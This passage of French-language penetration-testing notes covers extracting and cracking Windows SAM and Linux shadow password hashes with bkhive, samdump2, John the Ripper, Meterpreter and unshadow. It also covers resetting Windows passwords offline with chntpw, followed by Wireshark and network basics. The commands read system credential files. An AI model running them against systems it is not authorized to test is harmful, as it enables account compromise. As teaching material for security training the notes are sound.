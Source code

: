##### BkHive

Sur certains systèmes Windows l'accès aux mots de passe chiffrés peut nécissiter une étape supplémentaire.
BkHive sert à extraire la clef syskey à partir de la ruche système.  
`bkhive system cle_sys.txt`  
`samdump2 SAM cle_sys.txt > /tmp/mdp_chiffres.txt`

##### John

Craquer le fichier contenant les mots de passe chiffrés :  
`john /tmp/mdp_chiffres.txt`

#### Craquage à distance

Avec une session Meterpreter, une commande permet de contourner les mécanismes de sécurité de Windows et d'obtenir la liste des mots de passe hashés :  
`hasdump`

Il suffit plus qu'à copier cette liste affichée à l'écran.

#### Craquage des mots de passe UNIX/Linux et élévation des privilèges

Le fichier contenant les mots de passe chiffrés est situé dans :  
`/etc/shadow`  
Il faut cependant avoir un niveau de privilège suffisant pour y accéder.  
Pour contrer ce problème, nous pouvons les obtenir en combinant les fichiers *passwd* et *shadow*:  
`unshadow /etc/passwd /etc/shadow > /tmp/linux_mdp_chiffres.txt`

Puis cracker la liste avec John par exemple.

### Réinitialisation de mots de passe sur machine Windows avec chntpw

Nécessite un accès physique de la machine cible.  
Objectif : écraser le fichier SAM et créer un nouveau mot de passe vide pour n'importe quel utilisateur.
Booter sur un autre OS et monter la partition de la machine.
Commande :  
`chntpw -i /mnt/sda1/Windows/System32/config/SAM`

Choisir *Edit user data and passwords*  
-i *mode interactif*

### Wireshark

La plupart des cartes réseau opèrent en mode non-promiscuité. Cela signifie que l'interface réseau de la carte NIC *(Network Interface Card)* ne transmet que le trafic qui lui est déstiné sinon elle ne transmet pas.
En mode promiscuité, la carte réseau accepte tous les paquets entrants.

Un concentrateur *(hub)* fonctionne en transmettant tout le trafic à tous les appareils connectés à ses ports.
Un commutateur *(switch)* fonctionne en transmettant uniquement le trafic destiné au port en comparant avec l'adresse MAC et le numéro de port pré-enregistrés de la carte réseau.
